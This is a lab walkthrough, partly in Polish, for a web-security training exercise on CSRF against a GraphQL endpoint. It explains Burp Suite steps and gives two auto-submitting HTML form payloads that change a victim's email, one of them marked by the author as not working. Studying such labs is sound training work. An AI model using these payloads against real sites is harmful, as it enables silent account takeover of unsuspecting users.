 Title: Performing CSRF exploits over GraphQL
Level: PRACTITIONER
Desc:  The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of x-www-form-urlencoded and is therefore vulnerable to cross-site request forgery (CSRF) attacks.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.
You can log in to your own account using the following credentials: wiener:peter.
Learn more about Working with GraphQL in Burp Suite. 


# Walkthrough:
Convert the request into a POST request with a Content-Type of x-www-form-urlencoded. To do this, right-click the request and select Change request method twice. 
<img width="730" height="702" alt="image" src="https://github.com/user-attachments/assets/3cae7e72-647a-4177-babd-ccb1c9ab1872" />

Encode body with URL encoding:
<img width="863" height="271" alt="image" src="https://github.com/user-attachments/assets/fde642a8-f472-4fbf-bb42-52a9f3eec022" />

Jak skonstruowac body to requestu x-www-form-urlencoded:
1. Bierzesz oryginalny request
<img width="665" height="568" alt="image" src="https://github.com/user-attachments/assets/2356eb82-8d77-46df-b1e7-a3a5620ea5cf" />
2. Przechodzisz do zakładki Graphql:
<img width="614" height="580" alt="image" src="https://github.com/user-attachments/assets/598f7820-3497-428b-9c49-6d5ba45ea3ca" />
3. Bierzesz query i variables i robisz:
  query=SKOPIUJ_ZAWARTOSC_QUERY&variables=SKOPIUJ_ZAWARTOSC_VARIABLES
4. URL ENCODE, ale nie enkoduj query= ani znaku & ani variables=
<img width="1247" height="540" alt="image" src="https://github.com/user-attachments/assets/54a2b834-e451-4ee0-8674-da7736d1991d" />

Right click on request->Engagement tools->create CSRG

But if you are poor(like me :))) ):

MY, NOT WORKIND EXPLOIT
```
<form method="POST" action="https://0aa30063042c7e6383a3bedd00c200b7.web-security-academy.net/graphql/v1">
    <input type="hidden" name="query" value="mutation+changeEmail($input%3a+ChangeEmailInput!)+{
++++++++changeEmail(input%3a+$input)+{
++++++++++++email
++++++++}
++++}">
    <input type="hidden" name="variables" value="{"input"%3a{"email"%3a"wiener3%40normal-user.net"}}">
</form>
<script>
        document.forms[0].submit();
</script>
```

EXPLOIT FROM MY FRIEND GPT.
```
<form action="https://0aa30063042c7e6383a3bedd00c200b7.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }">
      <input type="hidden" name="variables" value='{"input":{"email":"wiener4@normal-user.net"}}'>
      <input type="submit" value="Submit CSRF">
 </form>
<script>
      document.forms[0].submit();
</script>
```
